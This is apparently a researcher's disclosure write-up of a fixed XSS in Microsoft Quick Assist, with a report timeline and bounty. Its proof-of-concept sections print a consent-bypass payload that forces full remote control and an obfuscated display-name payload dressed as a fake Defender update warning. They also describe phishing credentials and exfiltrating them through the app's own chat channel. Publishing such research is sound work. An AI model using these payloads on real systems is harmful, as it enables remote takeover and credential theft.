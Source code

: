 ```yaml
---
title: 'Advanced Microsoft Phishing with a QuickAssist XSS'
tags: ['Phishing', 'Microsoft']
date: '2024-11-14T00:00:00+01:00'
---
```


Earlier this year, Microsoft published an blog about TA Storm-1811 using Quick Assist to conduct targeted social engineering attacks and deploy Black Basta ransomware.

https://www.microsoft.com/en-us/security/blog/2024/05/15/threat-actors-misusing-quick-assist-in-social-engineering-attacks-leading-to-ransomware/

The full attack scenario is quite long, but could have been easier to execute a few months earlier.

Indeed, in October 2023, during redteam research, I discovered and reported a cross-site-scripting vulnerability in QuickAssist that could allow an attacker to bypass consent prompts in QuickAssist andtake full control over the computer without approval from the victim.

**An attacker could :**

* **Change its display name to spoof official Microsoft agents or anyone else**
* **Execute javascript code on the victim’s Webview2 browser running QuickAssist, and communicate with the native app (and potentially exploit local vulnerabilities from there, if any)**
* **Bypass consent prompts, especially the “Full Control” prompt required to remotely control the victim’s desktop**

#### Context

QuickAssist is a Webview2 built-in Windows utility to help someone by remotely viewing their desktop and eventually taking full control of their workstation to troubleshoot issues.

The helper must first send 6-long alphanumeric code to the perso who needs help (the sharer).

When run in normal operations, QuickAssist will display the following consent message to the sharer (on the left):

![image-0.png](images/image-0.png)


Once the sharing has started, the helper cannot take control over the sharer’s desktop unless another consent request is approved by the sharer, as shown in the screenshot below :

![image-0.png](images/image-1.png)


#### Exploitation

This exploit is a combination of multiple issues (at the time) on the script REDACTED

Below is a preview of the script :

```javascript

/* Minification failed. Returning unminified contents.
(3828,44-45): run-time error JS1195: Expected expression: .
(3828,55-56): run-time error JS1003: Expected ':': )
(3828,57-59): run-time error JS1195: Expected expression: ||
(3828,64-65): run-time error JS1006: Expected ')': ;
(12020,48-49): run-time error JS1195: Expected expression: .
(12020,59-60): run-time error JS1195: Expected expression: .
(12020,67-68): run-time error JS1003: Expected ':': )
(12021,25-28): run-time error JS1009: Expected '}': var
(12021,25-28): run-time error JS1003: Expected ':': var
(12021,139-140): run-time error JS1006: Expected ')': ;
(12040,9-10): run-time error JS1194: Expected ',' or ']': }
(12040,9-10): run-time error JS1006: Expected ')': }
(12041,5-6): run-time error JS1195: Expected expression: ]
(12041,6-7): run-time error JS1195: Expected expression: )
 */
// Copyright (c) Microsoft Corporation. All rights reserved.

//namespaced scoped constants
var microsoft = microsoft || {};
microsoft.remoteAssistance = microsoft.remoteAssistance || {};

// This value has been defined as the result of a script include before angular
// we'll 'inject' it here so that we can mock config for testing
// add fallback for headless js testing
microsoft.remoteAssistance.config = microsoft.remoteAssistance.config || {};
microsoft.remoteAssistance.moduleName = microsoft.remoteAssistance.moduleName || 'RemoteAssistanceWeb';

// namespace scoped constants
try {
    document.domain = 'microsoft.com';
} catch (e) {
    // TODO: blocked on logging this until we rebuild the client telemetry outside of angular (task #1516344)
}

// add fallback for older browsers 
console = console || {};
console.log = console.log || function () { };

(function () {
    // safeApply to avoid 'digest already in progress' error
    angular.module('ng').run(['$rootScope', '$log', function ($rootScope, $log) {
        $rootScope.safeApply = function (fn) {
            var phase = this.$root.$$phase;
            if (phase == '$apply' || phase == '$digest') {
                if (fn && (typeof (fn) === 'function')) {
                    fn();
                }
            } else {
                this.$apply(fn);
            }
        };

        // Check the environment -- native vs web browser
        $rootScope.isWebView2 = (typeof window.chrome != 'undefined' && typeof window.chrome.webview != 'undefined' && 'postMessage' in window.chrome.webview);
        $rootScope.isNative = (typeof window != 'undefined' &&
            ((typeof window.external != 'undefined' && 'notify' in window.external) || $rootScope.isWebView2));

        $rootScope.isHosted = window.parent && (window.location !== window.parent.location);

        if (!$rootScope.isNative) {
            microsoft.remoteAssistance.config.passcodeLength = microsoft.remoteAssistance.config.passcodeLengthCrypto;
        }
        $log.logt = function (message) {
            $log.log('[' + new Date().toLocaleTimeString() + '] ' + message);
        };
    }]);

    // Creates angular module
    var app = angular.module(microsoft.remoteAssistance.moduleName, ['authAngular', 'angularjsrouting', 'ngAria', 'ngRoute', 'ngCookies', 'ngSanitize', 'ngAnimate', 'angular-md5']);
    app.value('clientConfig', microsoft.remoteAssistance.config);

    app.config(['$compileProvider', '$qProvider',
        function ($compileProvider, $qProvider) {
            $compileProvider.debugInfoEnabled(!!microsoft.remoteAssistance.config.enableDebugging);
            $compileProvider.aHrefSanitizationWhitelist(/^\s*(https?|itms\-apps|ftp|mailto|file|javascript|microsoft-edge|ms-windows-store|ms-quick-assist):/);
            // in angular 1.6, unhandled reject exceptions wherer introduced. I am disabling this feature. It causes failures
            $qProvider.errorOnUnhandledRejections(false);
    }]);
```

First, JS (and CSS) minification errors could be seen at the beginning of the file, leading to cleartext developer comments in the script, as well as functions that should not have been shipped to production. This helps a lot understanding the code and looking for vulnerabilities.

Second, we can see that the javascript href protocol was added to the whitelist in `a`d tags using [$compileProvider.aHrefSanitizationWhitelist](https://code.angularjs.org/1.8.2/docs/api/ng/provider/$compileProvider#aHrefSanitizationWhitelist), essentially enabling _on(e) click_ XSS at all `ng-bind-html` locations in the application.

The XSS injection point is located inside the `displayName` variable that is being sent to the victim upon initializing the session.

First, the attacker must prepare the Quick Assist session to store the XSS payload to send to its victim.

Without diving too deep into the technical details, the easiest way I’ve found to successfully inject into the displayName value is to intercept the HTTP **response** received **after** sending a POST request to the following URL :

```
https://remoteassistance.support.services.microsoft.com/api/v2.0/remoteassistance/createconsumersession
```

![image-0.png](images/image-2.png)

By intercepting the response, we can easily change values before they are stored in Javascript and sent in further requests and websocket messages.

The attacker must then ask its victim to initiate a remote assistance session using the attacker’s code, retrieved in the previous response. For example, the attacker could send a phishing email asking the user to install a critical security update by running QuickAssist and entering a specific code. It could also be provided during a tech-support scam call.

As soon as the victim enters the code and completes the first connection steps, the malicious payload will be rendered on QuickAssist to trick the user into executing the XSS.

Here is an example :

![image-0.png](images/image-3.png)

By playing with existing CSS rules and HTML, we can completely hide the original consent prompt to display any phishing message.

The displayed message contains a very basic malicious `a` tag which uses the `javascript:` scheme to run Javascript when clicked :

```html
<a href=javascript:alert()>Click me to alert()</a>
```

#### Proofs-of-concept

**Full demo**

Left pane is the attacker, right pane is the victim. Attacker trafic is intercepted and forged manually using Burpsuite, but the whole setup could have been fully automated.

![image-4.gif](images/image-4.gif)


**FullControl consent bypass**

The following javascript payload can be used to proceed with the sharing request and force the victim to set the sharing mode to “FullControl” without its consent.

```javascript
document.querySelector('button').click();
setInterval(_=>{window.chrome.webview.postMessage(angular.toJson({command:'setsharingmode',context:{sharingmode: 'FullControl'}}))},1000)
```

_Note that it is possible to send any other command available in QuickAssist native app using this method._

The full “FirstName” payload used in the video is below :

```json
"FirstName": "<table width=\"100%\" class=\"ra-report-table absolute-center tooltip jumbotron \" height=\"100%\"><tbody bgcolor=\"#ffffff\"><tr height=\"550px\"><th><a href=\"javascript:eval(String.fromCharCode(100,111,99,117,109,101,110,116,46,113,117,101,114,121,83,101,108,101,99,116,111,114,40,39,98,117,116,116,111,110,39,41,46,99,108,105,99,107,40,41,59,13,10,115,101,116,73,110,116,101,114,118,97,108,40,95,61,62,123,119,105,110,100,111,119,46,99,104,114,111,109,101,46,119,101,98,118,105,101,119,46,112,111,115,116,77,101,115,115,97,103,101,40,97,110,103,117,108,97,114,46,116,111,74,115,111,110,40,123,99,111,109,109,97,110,100,58,39,115,101,116,115,104,97,114,105,110,103,109,111,100,101,39,44,99,111,110,116,101,120,116,58,123,115,104,97,114,105,110,103,109,111,100,101,58,32,39,70,117,108,108,67,111,110,116,114,111,108,39,125,125,41,41,125,44,49,48,48,48,41))\" class\"\"=\"\"><br><br><br><br><br><br><h1 class=\"alert alert-error\">Security warning<\/h1><p>Quick Assist has detected that Microsoft Defender antivirus definitions are not up to date.<\/p><\/a><br><a class=\"btn btn-primary\">Install updates<\/a><\/th><\/tr><\/tbody><\/table>"
```

**Credentials phishing and exfiltration**

After triggering the XSS, a form can be added to the page to harvest credentials from QuickAssist window.

It is possible to exfiltrate harvested credentials via `remoteassistanceprodacs.communication.azure.com` since the communication channel is already established and it is allowed by CORS.

The JWT token and joinUri can be retrieved from `localStorage` to build an authenticated POST request to [https://remoteassistanceprodacs.communication.azure.com/chat/threads/{joinUri}/messages?api-version=2021-09-07](https://remoteassistanceprodacs.communication.azure.com/chat/threads/%7BjoinUri%7D/messages?api-version=2021-09-07`) , send the message, then retrieve it on the attacker’s side by sending an authenticated GET request to the same endpoint using their own credentials.

#### Timeline

* September 2023 : Discovery
* 18/10/2023 : MSRC Report
* 7/11/2023 : MSRC confirms vulnerability
* 10/11/2023 : $1000 bounty awarded (no CVE assigned)
* Sometime early 2024 : Vulnerability fixed